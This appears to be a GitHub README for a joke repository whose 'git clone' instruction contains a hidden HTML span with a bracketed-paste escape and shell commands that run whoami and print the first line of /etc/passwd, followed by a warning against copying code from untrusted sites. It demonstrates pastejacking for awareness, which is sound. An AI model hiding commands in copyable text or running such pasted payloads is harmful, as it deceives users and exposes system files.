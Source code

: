 # can-i-have-a-free-tshirt
Thanks.

## Contributors
boka (boka@slickage.com)

## Messages
boka:  Thank mister skeltal!

```
git clone
<span style="position: absolute; /* left: -1000px; */ /* top: -1000px*/">[201~/dev/null; clear; echo -n "Hello ";whoami|tr -d '\n';echo -e '!\nThat was a bad idea. Don'"'"'t copy code from websites you don'"'"'t trust!<br>Here'"'"'s the first line of your /etc/passwd: ';head -n1 /etc/passwd<br>git clone </span>
https://github.com/JGefroh/can-i-have-a-free-tshirt.git
```
